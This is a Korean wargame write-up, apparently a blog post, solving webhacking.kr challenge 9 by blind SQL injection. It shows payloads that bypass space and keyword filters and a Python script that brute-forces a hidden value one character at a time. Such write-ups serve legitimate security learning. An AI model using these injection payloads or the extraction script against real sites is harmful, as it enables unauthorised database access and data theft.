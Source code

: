 ```yaml
---
title: "webhacking.kr 9번 문제 풀이"
excerpt_separator: "<!--more-->"
categories:
  - webhacking
tags:
  - webhacking
  - wargame
classes: wide
---
```


[9번 바로가기](http://webhacking.kr/challenge/web/web-09/index.php)

문제 페이지에 들어가면 아래와 같은 화면이 나온다. password를 알맞게 입력하면 문제가 풀리는 방식인듯 하다.

![9번](/img/9번_1.JPG)

입력창 위에 숫자를 누르면 다른 화면이 보인다. URL을 잘 보면 no라는 인자에 클릭한 숫자가 들어가 있다.
`no=1`일 때는 "Apple", `no=2`일 때는 "Banana"가 출력되고, `no=3`일 때는 hint가 나온다.

![9번](/img/9번_3.JPG)

길이가 11이고, DB의 컬럼은 no, id가 있다고 알려주고 있다. no에 들어가는 값을 조작해서 id에 있는 값을
알아내면 되는것 같다.


`no=True`를 url에 입력하니, "Apple"이 나온다. `'`나, ` `, `union` 등 쿼리에 사용되는 일부 문자열을 입력하면 "Access Denied"라고 나온다.
no가 number형 필드이기 때문에 `if`문을 이용해 조건에 따라 `no`에 들어가는 값을 다르게 지정하여 Blind SQLi를 할 수 있다.


 `if(True,1,2)`를 넣으면 "Apple"이 나오고, `if(False,1,2)`를 넣으면 "Banana"가 나온다. `if`문 필터링되지 않고 정상적으로 사용할 수 있다.


일단 길이가 11이라고 했으니 id의 길이가 11인지 보자. 공백문자 ` `가 필터링되니까, `%09`, `%0a`, `%0d`, `/**/` 등을 사용하면 된다. 각각 탭, 라인피드, 캐리지리턴, 주석을 의미한다.
주석의 경우 `SELECT/**/col` 이렇게 쓰면 `SELECT col`와 동일하게 인식된다. `()`를 사용해서 `SELECT(col)from(talbe)` 이런식으로 해도 된다.


`if`문은 `if(조건, 참일 경우의 값, 거짓일 경우의 값)`으로 사용되는데 프로그래밍언어의 3항 연산자랑 비슷하다.
`if((length(id))in(11),1,2)` 이렇게 입력해보자, 테이블명은 여기서 지정하지 않아도 된다.
내부에서 쿼리가 `select * from table where no = if()` 이런식으로 들어가기 때문에 `select`문과 같은 테이블이면 지정할 필요가 없다.
결과는 `no=2`이 되어 "Banana"가 나온다. 길이가 11이 아니라고 나온다... 우선 `id`에 어떤 값이 있는지 찾아 보자.

![9번](/img/9번_2.JPG)


`if(strcmp(substr(id,1,1),0x41),0,3)` 이렇게 입력하면 id에 있는 첫 번째 문자가 0x41(A)인지 확인할 수 있다.
`substr()`의 1번 인자는 문자열, 2번 인자는 시작위치(1부터 시작), 3번 인자는 시작위치부터 읽을 길이이다.
`if`문이 참이라면 `no=3`이되어 "Secret\nhint:..."가 나올 것이다.
`strcmp()`는 문자열이 서로 같으면 0이 리턴되기 때문에 `if`문에 값을 반대로 적어야 한다. `strcmp()`말고 `if(substr(id,1,1)in(0x41),0,3)`이런식으로 `in()`을 사용할 수 도 있다.
혹은 `if(substr(id,1,1)like(0))` 이런식으로 `like()`함수를 이용할 수 있다. 이때는 `like()`함수에 이용되는 `%`와 같은 문자는 사용하면 안된다.


결과적으로 아래의 코드를 실행하면 Flag를 얻을 수 있다. `if((length(id))in(11),1,2)`을 통해 확인했을 때는 id의 길이가 11이 아니라고 나오지만
코드로 확인해보면 `if(strcmp(substr(id,12,1),0x41),0,3)` 처럼 id의 12번째 이상의 값은 아스키 문자 중 매칭되는 것이 없었다.


```python
import urllib.request
import re

header = {'Cookie':'PHPSESSID=본인 세션쿠키'}
code = [x for x in range(39, 127)]

for i in range(1, 12):
    for c in code:
        req = urllib.request.Request("http://webhacking.kr/challenge/web/web-09/index.php?no=if(strcmp(substr(id," + str(i) + ",1)," + hex(c) + "),0,3)", headers=header)
        data = urllib.request.urlopen(req).read()
        data = data.decode('UTF-8')
        find = re.findall('Secret', data)
        if find:
            print(str(i) + ' ' + chr(c))
            break
```
